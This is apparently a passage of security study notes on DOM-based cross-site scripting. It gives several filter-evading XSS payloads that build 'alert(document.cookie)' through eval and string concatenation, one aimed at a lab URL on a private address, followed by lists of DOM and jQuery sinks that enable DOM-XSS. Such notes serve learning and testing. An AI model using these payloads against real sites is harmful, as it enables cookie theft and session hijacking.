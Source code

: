 ```javascript
 /?user=')|eval('onload=a'.concat('lert(document.cookie)'))//
```

```javascript
http://192.168.1.3/web/vulnapp.php%20/?user=%27)|eval(%27onload=a%27.concat(%27lert(document.cookie)%27))//#!
```

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```javascript
 /?user='),alert?.('document.cookie//
```

Which sinks can lead to DOM-XSS vulnerabilities?

&#x20;The following are some of the main sinks that can lead to DOM-XSS vulnerabilities:

```
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent

```

he following jQuery functions are also sinks that can lead to DOM-XSS vulnerabilities:

```
add()
after()
append()
animate()insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```
